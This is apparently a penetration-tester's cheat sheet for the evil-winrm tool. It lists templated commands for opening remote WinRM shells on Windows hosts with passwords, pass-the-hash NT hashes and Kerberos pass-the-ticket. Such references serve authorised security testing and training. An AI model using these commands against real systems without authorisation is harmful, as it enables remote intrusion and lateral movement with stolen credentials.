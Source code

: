 # evil-winrm
% windows, remote, winrm, evilwinrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986 #cat/ATTACK/CONNECT 

## local account with creds
```bash
evil-winrm -i <ip> -u <user> -p '<password>'
```


## local account with creds (over TLS)
```bash
evil-winrm -i <ip> -u <user> -p '<password>' --ssl -Port 5986
```

## domain account with creds
```bash
evil-winrm -i <ip> -u '<domain_netbios>\<user>' -p '<password>'
```

## local account pth
```bash
evil-winrm -i <ip> -u <user> -H <nt_hash>
```

## domain account pth
```bash
evil-winrm -i <ip> -u '<domain_netbios>\<user>' -H <nt_hash>
```

## pass the ticket
add realm /etc/krb5.conf
[libdefaults]
        rdns=false
[realms]
CONTOSO.COM = {
             kdc = fooserver.contoso.com
 }
```bash
export KRB5CCNAME=<ccache> && evil-winrm -i <target_fqdn>  --realm <domain_fqdn>
```